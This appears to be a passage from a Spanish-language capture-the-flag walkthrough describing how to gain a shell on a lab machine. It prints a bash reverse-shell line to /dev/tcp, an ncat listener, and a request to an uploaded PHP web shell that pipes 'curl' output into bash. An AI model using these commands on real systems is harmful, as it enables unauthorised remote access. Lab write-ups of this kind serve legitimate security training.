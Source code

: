 ## GANAR ACCESO A LA MÁQUINA

Para obtener el acceso a la maquína, vamos a crearnos un archivo index.html que contendra lo siguiente. 

index.html

```html
bash -i >& /dev/tcp/YOU-IP/443 0>&1
```
Esto se puede realizar de muchas maneras ya que tenemos ejecución de comandos a nivel del sistema víctima.

Luego iniciamos un servidor en python indicandole el puerto en donde va ejecutarse.

```python
python3 -m http.server 80
```

Y ponernos a la escucha en el puerto 443 para ganar acceso a la máquina, ya que en el archivo index.html le indicamos que a ese puerto nos enviará una shell.

```bash
ncat -lnvp 443
```

![](shell04.png)

En la url ponemos lo siguiente:

```html
http://10.10.207.156/storage/uploads/2022/03/19/62360bf9715d0shell.php?cmd=curl http://IP | bash 
```

Realizamos un curl a nuestro servidor que esta con python y lo vamos a interpretar con bash, esto noes permite entablarnos un shell a nivel de terminal
